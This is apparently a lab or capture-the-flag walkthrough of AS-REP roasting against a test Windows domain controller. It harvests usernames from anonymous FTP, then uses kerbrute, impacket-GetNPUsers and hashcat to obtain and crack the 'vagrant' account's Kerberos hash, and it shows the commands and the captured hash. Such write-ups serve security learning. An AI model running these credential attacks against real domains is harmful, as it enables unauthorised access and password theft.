 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=YO3y1KRcbi0)|[Download](https://drive.google.com/file/d/1UfnW8X2qzMGTAGK1N4D9_iWHUVYuEmLD/view)|


# 2. Finding a way in

The nmap scan found a FTP service with anonymous login allowed, there isn't any files in FTP at all, but this provides a list of usernames

☝️ **Usernames are important!** Although the FTP service had no data, having a list of usernames means you can use it to enumerate something else

## 2.1. Try AS-REP Roasting

The other ports such as `53`, `88`, `389`, `636`, `3268`, `3269`, etc shows that this is a Domain Controller and the domain name is `windomain.local`

Let's use the list of usernames to do AS-REP Roasting

### 2.1.1. Use kerbrute to find users with preauthentication disabled

```console
┌──(root㉿kali)-[~]
└─# kerbrute -users users.txt -domain windomain.local -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Stupendous (Expired password) => Dinnie.Nikki:
[*] Valid user => Dulci.Alanah
[*] Valid user => Lem.Emmalyn
[*] Valid user => Onida.Florence
[*] Valid user => Rakel.Bekki
[*] Valid user => vagrant [NOT PREAUTH]
```

### 2.1.2. Use GetNPUsers.py to get password hash

```console
┌──(root㉿kali)-[~]
└─# impacket-GetNPUsers windomain.local/vagrant -no-pass -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for vagrant
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:871beef48a411f845ebb1d8b04dd9c13$adbbc87ab91d710e562fff2d00b7936613250dad5f0bb468e77b3ef4264d6b3930556b866f4468a8243c3866e2757ced577870144b2afd4746a7fc90fcaf347807e5c50d34285528d3fa71abcdf46994dfa0c26831d0486d8b6cdd1bb8c33208e5eaa246ed75eba33d0f78a533b2760f5a230075a1f7edf73c6742737026a19e393ed411839693fb32dacf7323727214c84c5f905a9c8dea3eccafe0435454ace2a995bf017080883ae04d188dfe3dde47ef1c4c59281879f8b184b61a05278e2fd7bcba94239738c72ad27dfdf0a78efad21663d48b5cbbf7ea51848d0df834adc481c77791200f25947906389d5bfd3907
```

### 2.1.3. Use hashcat to crack the hash

```console
┌──(root㉿kali)-[~]
└─# hashcat -m 18200 as-rep.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
⋮
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:•••hash-truncated•••:vagrant

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
⋮
Started: Thu Dec  8 14:36:19 2022
Stopped: Thu Dec  8 14:36:48 2022
```
